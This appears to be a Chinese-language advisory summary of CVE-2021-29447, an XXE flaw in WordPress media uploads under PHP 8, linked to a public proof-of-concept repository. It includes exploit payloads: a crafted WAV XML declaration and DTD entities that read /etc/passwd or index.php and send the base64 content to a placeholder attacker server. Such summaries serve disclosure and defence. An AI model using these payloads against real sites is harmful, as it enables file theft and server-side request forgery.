 ## CVE-2021-29447 - WordPress XXE

**漏洞编号:** CVE-2021-29447

**漏洞类型:** XML 外部实体注入 (XXE)

**影响应用:** WordPress

**危害等级:** 高危，可能导致敏感信息泄露和服务器端请求伪造 (SSRF)

**影响版本:** >= 5.6.0, < 5.7.1 (在 PHP 8 环境下)

**利用条件:** 需要具备上传文件的权限 (如作者角色)，且服务器运行在 PHP 8 环境下。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-29447 漏洞存在于 WordPress 的媒体库中，当 WordPress 运行在 PHP 8 环境下时，具有上传文件权限的用户（例如作者）可以通过上传包含恶意 XML 内容的文件（如特制的 WAV 文件）来触发 XXE 漏洞。

**利用方式：**

1.  **构建恶意 WAV 文件：** 攻击者需要创建一个包含恶意 XML 声明的 WAV 文件。该 XML 声明包含一个外部实体引用，指向攻击者控制的远程 DTD 文件。

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE ANY[
        <!ENTITY % remote SYSTEM 'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'>
        %remote;%init;%trick;
    ]>
    ```

2.  **创建恶意 DTD 文件：** 攻击者需要在自己的服务器上创建一个 DTD 文件，该文件定义了如何读取服务器上的文件，并将其发送回攻击者。例如，读取 `/etc/passwd` 文件并进行 Base64 编码。

    ```xml
    <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
    ```

    或者，读取 WordPress 配置文件 `index.php`。

    ```xml
    <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=../index.php">
    <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
    ```

3.  **上传恶意 WAV 文件：** 攻击者通过 WordPress 后台的媒体库上传该恶意 WAV 文件。

4.  **触发 XXE：** WordPress 解析该 WAV 文件时，会尝试解析其中的 XML 内容，从而触发 XXE 漏洞，并从攻击者的服务器下载 DTD 文件。

5.  **获取文件内容：** 恶意 DTD 文件会指示 WordPress 读取目标文件（例如 `/etc/passwd` 或 `wp-config.php`），对其进行 Base64 编码，并通过 HTTP 请求将内容发送到攻击者的服务器。

**有效性：**

提供的 POC 代码有效，可以利用该漏洞读取服务器上的文件，或者进行 SSRF 攻击。搜索结果中的多个链接也证实了该漏洞的存在以及利用方式。

**投毒风险：**

代码中存在轻微的投毒风险。主要的风险点在于 DTD 文件是由攻击者提供的。虽然提供的 DTD 示例代码是用来读取文件，但攻击者可以在 DTD 文件中执行其他恶意操作，例如尝试执行代码。但是由于文件读取已经是该漏洞所能达到的最大危害之一。所以判断投毒风险为10%。该值评估仓库中是否隐藏有恶意或非预期行为的代码。例如，某些代码可能会在未经授权的情况下收集用户信息、安装后门或执行其他恶意活动。 

**项目地址:** [AssassinUKG/CVE-2021-29447](https://github.com/AssassinUKG/CVE-2021-29447)

**漏洞详情:** [CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447)
